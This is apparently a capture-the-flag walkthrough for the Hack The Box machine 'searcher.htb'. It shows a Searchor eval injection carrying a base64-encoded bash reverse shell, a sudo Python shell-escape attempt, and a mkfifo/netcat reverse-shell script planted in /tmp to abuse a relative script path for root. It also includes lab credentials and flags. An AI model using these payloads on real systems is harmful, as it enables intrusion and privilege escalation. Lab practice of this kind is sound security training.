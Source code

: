 
#Linux

![[Pasted image 20240619114311.png]]

![[Pasted image 20240619115340.png]]

We were unable to connect via browser

Edit:
`/etc/hosts` with `searcher.htb`

![[Pasted image 20240619120311.png]]

![[Pasted image 20240619120501.png]]


![[Pasted image 20240619120542.png]]


***
Entered Query

![[Pasted image 20240619120817.png]]

Directory Traversal denial
`../../../`
`..%2F..%2F..%2F..%2F`
![[Pasted image 20240619120914.png]]


***
FLASK and SEARCHER

![[Pasted image 20240619121156.png]]

Follow Hyperlink and Navigate to releases
![[Pasted image 20240619121626.png]]

Insecure `eval` method used
![[Pasted image 20240619121826.png]]

![[Pasted image 20240619121856.png]]

https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection



***
Base64 encode the reverse shell payload

![[Pasted image 20240619124731.png]]



Inject into the search parameter:
`') + str(__import__('os').system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMi8xMzM3IDA+JjEK | base64 -d|bash')) #`

![[Pasted image 20240619124928.png]]

Start NC listener:

![[Pasted image 20240619124852.png]]

![[Pasted image 20240619125038.png]]

user.txt : 9470a198d6989bfe3a0fd402e2a5e6f5

***

**PRIV ESCALATION**

![[Pasted image 20240619125301.png]]

![[Pasted image 20240619125448.png]]

cody:jh1usoih2bkjaspwe92

These are not ssh creds
Add new domain to `/etc/hosts` file

![[Pasted image 20240619125936.png]]


![[Pasted image 20240619130305.png]]

Sign-in as Cody
![[Pasted image 20240619130436.png]]

***
SSH into `svc` using credentials from cody `jh1usoih2bkjaspwe92`

![[Pasted image 20240619130912.png]]

Run `sudo -l`
![[Pasted image 20240619130955.png]]

GTFO BIN Fail
`sudo python3 -c 'import os; os.system("/bin/sh")'`
![[Pasted image 20240619131120.png]]


***

![[Pasted image 20240619131340.png]]


```
The website specifically mentions the usage of the {{json .}} formatting template, which renders all the information about the container in the JSON format. Thus, we can use {{json .}} as the format argument required by the docker-inspect argument of the script. To read the JSON output conveniently, we can use jq to parse the JSON output into a readable format. jq can be installed using the following command, however, it is already present on the target machine.
```



`sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' 960873171e2e | jq`

![[Pasted image 20240619131910.png]]

```
GITEA__database__USER=gitea,
GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh"
```


Sign in as Admin with these credentials
![[Pasted image 20240619132141.png]]

We can now see the `system-checkup.py` file found to be executable by `svc`

![[Pasted image 20240619132251.png]]


Inspect code:
![[Pasted image 20240619132925.png]]

Line 47 references a script with a relative path. This can be exploited by creating a malicious file with the same name because it looks for `full-checkup.sh` in the *current working directory


![[Pasted image 20240619133137.png]]


***
Create file in `/tmp`


`echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.12 9001 >/tmp/f" > /tmp/full-checkup.sh`

![[Pasted image 20240619132733.png]]



Change Permissions and run with NC listening on 9001
![[Pasted image 20240619133801.png]]

![[Pasted image 20240619133838.png]]


***
***

user.txt : 9470a198d6989bfe3a0fd402e2a5e6f5
root.txt : 2880b65d0036450113351435a483a4d4
